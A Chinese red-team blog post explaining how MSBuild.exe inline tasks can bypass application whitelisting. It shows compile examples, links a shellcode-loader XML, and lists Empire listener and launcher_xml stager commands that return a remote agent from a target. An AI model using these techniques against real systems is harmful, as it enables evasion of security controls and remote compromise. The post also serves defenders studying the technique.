 ```yaml
---
layout:     post
title:    白名单-MSBUILD的利用
subtitle:   MSBUILD的利用
date:       2020-01-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-MSBUILD的利用

## 简介
MSBuild能在没有安装vs的环境中编译.net的工程文件，能编译一些特定格式的xml文件。  
具体的可以看官方的文档：  
[https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN](https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN)  

## 测试
首先来几个简单的案例。  

### 编译生成可执行文件  
详细的内容还是看上看的官方文档。  
测试代码：  
```
using System;

namespace ForTest
{
    class Test
    {
        static void Main()
        {
            Console.WriteLine("test!");
        }
    }
}
```  
保存为test.cs。  
```
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <Target Name="Compile">
        <CSC Sources="test.cs" OutputAssembly="test.exe" />
    </Target>
</Project>
```
保存为test.csproj。  
这里的文件是什么后缀无所谓，只要符合xml格式就可以进行编译。  
因为msbuild没有加入环境变量，要给上全路径或者直接到对应目录下进行编译。  
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\msbuild.exe test.csproj
```  
编译后会在对应目录下生成一个exe文件。  
运行以后会输出test。  
![200103_1](/img/200103_test.png)  

### 编译执行C#代码  
将需要执行的代码嵌入在xml中，后面也是基于这个去执行payload。  
来个简单的例子：  
```
<Project ToolsVersion="12.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">  
  <!-- This simple inline task does nothing. -->  
  <UsingTask  
    TaskName="DoNothing"  
    TaskFactory="CodeTaskFactory"  
    AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v12.0.dll" >  
    <ParameterGroup />  
    <Task>  
      <Reference Include="" />  
      <Using Namespace="" />  
      <Code Type="Fragment" Language="cs">  
      </Code>  
    </Task>  
  </UsingTask>  
</Project> 
```
这是官方的例子，我们在
```
<Code></Code>
```
中添加需要执行的代码。   
```
 <![CDATA[
         Console.WriteLine("test!");		
     ]]>
```
同样的这个文件后缀也无所谓，只要满足对应的xml语法就可以了。  
![200103_2](/img/200103_test2.png)  

## 加载shellcode  
通过向xml中添加内嵌代码，用来加载shellcode。  
这里直接给出三好学生老师傅的代码。[https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml)  
将其中的shellcode替换掉。  
![200103_3](/img/200103_xml.png)  
保存为何种格式无所谓，直接通过msbuild编译。  
![200103_4](/img/200103_msbuildcsproj.png)  
也可以编译xml。  
![200103_5](/img/200103_msbulidxml.png)  
可以看到已经能上线了。  
![200103_6](/img/200103_beacon.png)  

## Empire
通过empire可以直接生成对应的xml文件，直接可以进行编译返回agent的操作。  
先listener。  
```
uselistener http
set Name test 
set Host http://xxx.xxx.xxx.xxx:xxxx
set Port xxxx
execute
```  
![200103_7](/img/200103_listener.png)  
然后生成对应的xml文件。  
```
usestager windows/launcher_xml
set Listener test
execute
```
![200103_8](/img/200103_empirexml.png)  
在靶机上执行：  
![200103_9](/img/200103_buildlaunch.png)  
可以看到返回一个agent。  
![201003_10](/img/200103_agent.png)  
后面可以继续用interact 命令去操作这个agent，这里不继续了。    

## 总结
msbuild的用法还有很多水平有限，有兴趣的可以去看看一些老师傅的文章。  

## 参考
[https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)  
[https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/](https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/)  
